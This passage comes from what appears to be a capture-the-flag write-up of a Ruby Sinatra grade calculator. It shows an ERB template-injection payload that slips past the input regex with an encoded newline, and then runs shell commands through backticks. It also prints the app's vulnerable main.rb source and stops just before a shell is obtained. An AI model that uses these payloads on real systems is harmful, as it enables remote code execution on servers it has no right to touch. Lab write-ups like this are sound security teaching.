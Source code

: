 ![](/images/perfection/perf5.png)

So, now we have a working `SSTI` payload, we just need to weaponize it.

```
test73%0a<%25%3d+7*7+%25>
```

In `Ruby` you can capture the output of commands within code by leveraging the `backtick`. So we can take our payload of `test73%0a<%25%3d+`ls`+%25>` and we should get output of the command:


![](/images/perfection/perf6.png)

Great! Now let's see what `main.rb` holds, and also, let's get a shell!

```
require 'sinatra'
require 'erb'
set :show_exceptions, false

configure do
    set :bind, '127.0.0.1'
    set :port, '3000'
end

get '/' do
    index_page = ERB.new(File.read 'views/index.erb')
    response_html = index_page.result(binding)
    return response_html
end

get '/about' do
    about_page = ERB.new(File.read 'views/about.erb')
    about_html = about_page.result(binding)
    return about_html
end

get '/weighted-grade' do
    calculator_page = ERB.new(File.read 'views/weighted_grade.erb')
    calcpage_html = calculator_page.result(binding)
    return calcpage_html
end

post '/weighted-grade-calc' do
    total_weight = params[:weight1].to_i + params[:weight2].to_i + params[:weight3].to_i + params[:weight4].to_i + params[:weight5].to_i
    if total_weight != 100
        @result = "Please reenter! Weights do not add up to 100."
        erb :'weighted_grade_results'
    elsif params[:category1] =~ /^[a-zA-Z0-9\/ ]+$/ && params[:category2] =~ /^[a-zA-Z0-9\/ ]+$/ && params[:category3] =~ /^[a-zA-Z0-9\/ ]+$/ && params[:category4] =~ /^[a-zA-Z0-9\/ ]+$/ && params[:category5] =~ /^[a-zA-Z0-9\/ ]+$/ && params[:grade1] =~ /^(?:100|\d{1,2})$/ && params[:grade2] =~ /^(?:100|\d{1,2})$/ && params[:grade3] =~ /^(?:100|\d{1,2})$/ && params[:grade4] =~ /^(?:100|\d{1,2})$/ && params[:grade5] =~ /^(?:100|\d{1,2})$/ && params[:weight1] =~ /^(?:100|\d{1,2})$/ && params[:weight2] =~ /^(?:100|\d{1,2})$/ && params[:weight3] =~ /^(?:100|\d{1,2})$/ && params[:weight4] =~ /^(?:100|\d{1,2})$/ && params[:weight5] =~ /^(?:100|\d{1,2})$/
        @result = ERB.new("Your total grade is <%= ((params[:grade1].to_i * params[:weight1].to_i) + (params[:grade2].to_i * params[:weight2].to_i) + (params[:grade3].to_i * params[:weight3].to_i) + (params[:grade4].to_i * params[:weight4].to_i) + (params[:grade5].to_i * params[:weight5].to_i)) / 100 %>\%<p>" + params[:category1] + ": <%= (params[:grade1].to_i * params[:weight1].to_i) / 100 %>\%</p><p>" + params[:category2] + ": <%= (params[:grade2].to_i * params[:weight2].to_i) / 100 %>\%</p><p>" + params[:category3] + ": <%= (params[:grade3].to_i * params[:weight3].to_i) / 100 %>\%</p><p>" + params[:category4] + ": <%= (params[:grade4].to_i * params[:weight4].to_i) / 100 %>\%</p><p>" + params[:category5] + ": <%= (params[:grade5].to_i * params[:weight5].to_i) / 100 %>\%</p>").result(binding)
```